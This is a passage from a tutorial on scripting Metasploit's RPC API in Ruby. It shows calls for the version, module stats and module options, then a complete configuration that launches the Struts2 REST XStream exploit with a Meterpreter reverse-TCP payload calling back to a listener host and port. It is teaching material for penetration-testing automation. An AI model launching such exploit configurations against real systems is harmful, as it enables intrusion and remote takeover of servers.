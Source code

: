 Now, I'm going to show the functionalities/APIs I needed, read the documentation and resources for more.

#### Core : Getting the RPC Service Version

```ruby
rpc.call('core.version')
```

As you can see, always the first argument is the API name that we want to call. Each API may have less or more one arguments.

#### Core : Getting the Module Stats

Number of exploits, auxiliary, post, encoders, nops, payloads modules

```ruby
rpc.call('core.module_stats')
```

#### Module : Show an Exploit Module

Exactly like using msfconsole:  `info exploit/multi/http/struts2_rest_xstream`

```ruby
rpc.call('module.options', 'exploit', 'multi/http/struts2_rest_xstream')
```

#### Module : Setting Options and Executing the Module

Exactly like saying `set RHOST 192.168.100.62` and `set payload linux/x86/meterpreter/reverse_tcp` and other options then `exploit`.

```ruby
exp_opts = {
  'RHOST'     => '192.168.100.62',
  'RPORT'     => 80,
  'TARGETURI' => '/orders/3',
  'SSL'       => false,
  'SRVHOST'   => '0.0.0.0',
  'SRVPORT'   => 8081,
  'UserAgent' => 'Black Hat Ruby',
  'target'    => 4 # 'Linux (Dropper)'
}
pay_opts = {
  'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp',
  'LHOST'   => '192.168.100.10',
  'LPORT'   => 9911
}
job = rpc.call('module.execute', 'exploit', 'multi/http/struts2_rest_xstream', exp_opts.merge(pay_opts))
```

This will return the job id if the exploit works.

#### Session : Getting Information about Job
